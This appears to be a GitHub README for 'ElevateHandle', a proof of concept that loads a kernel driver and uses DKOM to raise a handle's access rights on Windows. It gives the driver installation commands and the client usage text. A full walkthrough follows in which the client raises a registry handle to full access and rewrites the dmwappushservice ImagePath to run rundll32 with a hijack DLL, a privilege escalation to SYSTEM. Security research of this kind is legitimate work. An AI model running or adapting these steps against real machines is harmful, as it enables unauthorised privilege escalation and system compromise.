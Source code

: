 # ElevateHandle

PoCs to elevate handle access with DKOM.

## Installation

```
PS C:\> sc.exe create ElevateHandle type= kernel binpath= C:\Dev\ElevateHandleDrv_x64.sys
PS C:\> sc.exe start ElevateHandle
```

## Client Program Usage

This technique requires a handle to the target object.
It is rare cases that low privileged process can get handles to high privileged process, so this client program performs service's binary path modification.

```
PS C:\Dev> .\ElevateHandleClient.exe -h

ElevateHandleClient - Client for ElevateHandleDrv.

Usage: ElevateHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -n, --name    : Specifies a service name to overwrite ImagePath value.
        -c, --command : Specifies a command to set ImagePath value.

[!] -n option is required.
```

For example, in Windows 10/11, we can start `dmwappushservice` service any users.
If attacers succeeds in tampering service registry key, it leads privilege escalation as follows:

```
PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p

PS C:\Dev> C:\Dev\ElevateHandleClient.exe -n dmwappushservice -c "C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry"

[+] Got a service key handle.
    [*] Registry Key Path : \REGISTRY\MACHINE\SYSTEM\CurrentControlSet\Services\dmwappushservice
    [*] Granted Access    : KEY_QUERY_VALUE
[*] Current ImagePath is "%SystemRoot%\system32\svchost.exe -k netsvcs -p".
[>] Sending a query to \??\ElevateHandle.
[+] Got a handle to \??\ElevateHandle (Handle = 0x28C).
[>] Sending a query to \??\ElevateHandle.
[+] Granted Access is elevated to KEY_ALL_ACCESS.
[+] ImagePath value is overwritten successfully.
[*] Done.

PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry

PS C:\Dev> sc.exe start dmwappushservice
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

PS C:\Dev>
```

![](./figures/ElevateHandle.png)